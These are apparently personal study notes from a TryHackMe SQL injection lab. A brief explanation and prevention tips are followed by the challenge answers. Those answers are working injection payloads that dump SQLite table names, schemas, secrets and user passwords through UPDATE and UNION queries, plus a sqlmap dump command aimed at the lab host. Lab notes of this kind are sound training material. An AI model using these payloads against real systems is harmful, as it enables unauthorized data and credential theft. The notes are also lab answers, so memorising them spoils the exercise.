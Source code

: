 # SQL Injection

* Notes from Try Hack Me:
  * https://tryhackme.com/room/sqlilab

* Prerequisites
  * Basics of the SQL language
* What is it?
  * Vulnerability in backend codes that allows an attacker to "inject" their own queries into an existing query
* How to prevent it?
  * Escape / prepare your queries
    * Use a library / ORM
      * These typically automatically escape your queries
  * Run your queries with the minimum needed permissions
  * Use Stored Procedures
    * Functions in your database
    * You still have to use parameterized queries... but that is the conventions so you'll be less likely to do it the bad way...

### Challenge #5

asd',nickName='test',email='hacked
',nickName=sqlite_version(),email='hacked

* Dump sqlite table info:

```SQL
',nickName=(SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'),email='
```

* Extract column names

```SQL
',nickName=(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='usertable'),email='
```

```SQL
',nickName=(SELECT group_concat(secret) FROM secrets),email='
```
  

## Task 5

',note=(SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'),'

' UNION SELECT 1,group_concat(password) FROM users-- -

## Task 6

sqlmap -u http://10.10.61.84:5000/challenge3/login --data="username=admin&password=admin" --level=5 --risk=3 --dbms=sqlite --technique=b --dump
